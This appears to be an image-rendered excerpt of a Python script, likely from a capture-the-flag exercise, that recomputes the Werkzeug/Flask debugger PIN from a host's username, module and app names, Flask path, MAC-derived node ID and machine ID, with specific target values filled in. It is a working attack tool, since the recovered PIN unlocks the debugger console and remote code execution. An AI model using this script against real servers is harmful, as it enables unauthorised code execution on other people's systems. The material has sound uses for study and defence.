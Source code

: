    ```python
       probably_public_bits = [
               username,
               modname,
               appname,
               flaskapp_path ]
       private_bits = [
               node_uuid,
               machine_id ]
   
       h = hasher
       for bit in chain(probably_public_bits, private_bits):
           if not bit:
               continue
           if isinstance(bit, str):
               bit = bit.encode('utf-8')
           h.update(bit)
       h.update(b'cookiesalt')
   
       cookie_name = '__wzd' + h.hexdigest()[:20]
   
       num = None
       if num is None:
           h.update(b'pinsalt')
           num = ('%09d' % int(h.hexdigest(), 16))[:9]
   
       rv =None
       if rv is None:
           for group_size in 5, 4, 3:
               if len(num) % group_size == 0:
                   rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                 for x in range(0, len(num), group_size))
                   break
           else:
               rv = num
   
       print(rv)
   
   if __name__ == '__main__':
   
       usernames = ['meta9']
       modnames = ['flask.app']
       appnames = ['wsgi_app', 'Flask']
       flaskpaths = ['/usr/lib/python3/dist-packages/flask/app.py']
       nodeuuids = ['276748283408195']
       machineids = ['9d01ccfec57941928e8cda4fab88266bsession-2.scope']
   
       # Generate all possible combinations of values
       combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)
   
       # Iterate over the combinations and call the crack() function for each one
       for combo in combinations:
           username, modname, appname, flaskpath, nodeuuid, machineid = combo
           print('==========================================================================')
           crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
           print(f'{combo}')
           print('==========================================================================')
   ```
